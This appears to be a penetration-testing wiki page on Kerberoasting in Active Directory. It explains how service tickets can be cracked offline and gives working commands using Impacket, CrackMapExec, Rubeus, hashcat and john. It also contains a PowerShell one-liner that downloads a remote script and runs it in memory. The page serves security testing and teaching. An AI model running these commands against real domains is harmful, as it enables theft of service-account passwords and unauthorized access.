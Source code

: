 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
---
```


# Kerberoast

## Theory

When asking the KDC \(Key Distribution Center\) for a Service Ticket, a.k.a. TGS \(Ticket Granting Service\), the requesting user needs to send a valid TGT \(Ticket Granting Ticket\) and the SPN \(Service Principal Name\) of the service wanted. If the TGT is valid, and if the SPN exists, the KDC sends the TGS to the requesting user.

The TGS is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a SPN for a service, he can request a TGS for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a TGS for this service and attempt to crack it offline. This is Kerberoasting.

## Practice

{% hint style="warning" %}
Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold \(valid domain credentials\).
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) \(Python\) can perform all the necessary steps to request a TGS for a service given its SPN and valid domain credentials.

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

If, for any reasons, you have to forward the Kerberos port (88 by default) from the target machine to your machine (for example, the port is only openned in local on the target, and you have to run something like `portfwd add -l 88 -p 88 -r 127.0.0.1` to access it from your machine), the Python3 packet [kerberoast](https://github.com/skelsec/kerberoast) can be pretty usefull.

```bash
python3 kerberoast spnroast kerberos+pass://$domain\\$user:$password@127.0.0.1 -u $TargetUser -r $REALM
```

{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```

This can also be achieved with Powershell. Depending on the tool that the tester will use to attempt cracking the ???, the `-OutputFormat` can be set to `hashcat` or `john`.

```bash
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoastables.txt
```
{% endtab %}
{% endtabs %}

[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another \([`GenericAll`](../abusing-aces/#genericall), [`GenericWrite`](../abusing-aces/#genericwrite)\), it can be abused to make that other account vulnerable to Kerberoast \(see [exploitation](../abusing-aces/targeted-kerberoasting.md)\).

## Resources

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

